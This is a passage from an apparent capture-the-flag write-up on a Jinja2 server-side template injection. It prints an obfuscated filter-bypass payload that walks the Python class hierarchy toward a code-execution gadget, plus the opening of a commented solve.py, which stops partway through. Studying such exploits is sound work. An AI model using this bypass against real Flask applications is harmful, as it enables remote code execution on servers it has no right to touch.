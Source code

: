 Our final payload:

{% ccb lang:python wrapped:true %}
(((((((request|attr((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(0)))|attr((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(1)))|attr(request.referrer))(3)|attr((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(2))))()|attr(request.referrer))(240))())|attr((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(3)))|attr((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(4)))|attr(request.referrer))((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(5)))((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(6)))|attr((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(7)))((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(8)))|attr((request|attr(request.mimetype)).get(((request.pragma|attr(request.referrer))(0)|attr(request.referrer))(9))))()
{% endccb %}

Final script:

{% ccb lang:python scrollable:true caption:solve.py %}
import requests
import jwt
import html

pragma = "request.pragma" # "0123456789"
getitem = "request.referrer" # "__getitem__"
headers = "request.mimetype" # "headers"
request_headers = f"(request|attr({headers}))" # request.headers 
pragma_str = f"({pragma}|attr({getitem}))(0)" # HeaderSet(['0123456789']).__getitem__(0) = "0123456789"

zero  = f"({pragma_str}|attr({getitem}))(0)" #"0123456789".__getitem__(0) = "0"
one   = f"({pragma_str}|attr({getitem}))(1)" #"0123456789".__getitem__(1) = "1"
two   = f"({pragma_str}|attr({getitem}))(2)" #"0123456789".__getitem__(2) = "2"
three = f"({pragma_str}|attr({getitem}))(3)" #"0123456789".__getitem__(3) = "3"
four  = f"({pragma_str}|attr({getitem}))(4)" #"0123456789".__getitem__(4) = "4"
five  = f"({pragma_str}|attr({getitem}))(5)" #"0123456789".__getitem__(5) = "5"
six   = f"({pragma_str}|attr({getitem}))(6)" #"0123456789".__getitem__(6) = "6"
seven = f"({pragma_str}|attr({getitem}))(7)" #"0123456789".__getitem__(7) = "7"
eight = f"({pragma_str}|attr({getitem}))(8)" #"0123456789".__getitem__(8) = "8"
nine  = f"({pragma_str}|attr({getitem}))(9)" #"0123456789".__getitem__(9) = "9"

class_dunder = f"{request_headers}.get({zero})" # request.headers.get("0") = "__class__"
mro_dunder = f"{request_headers}.get({one})" # request.headers.get("1") = "__mro__"

mro_tuple = f"request|attr({class_dunder})|attr({mro_dunder})" # request.__class__.__mro__
# this is (<class 'flask.wrappers.Request'>, <class 'werkzeug.wrappers.request.Request'>, <class 'werkzeug.sansio.request.Request'>, <class 'object'>)

class_object = f"({mro_tuple}|attr({getitem}))(3)" # request.__class__.__mro__.__getitem__(3) = <class 'object'>
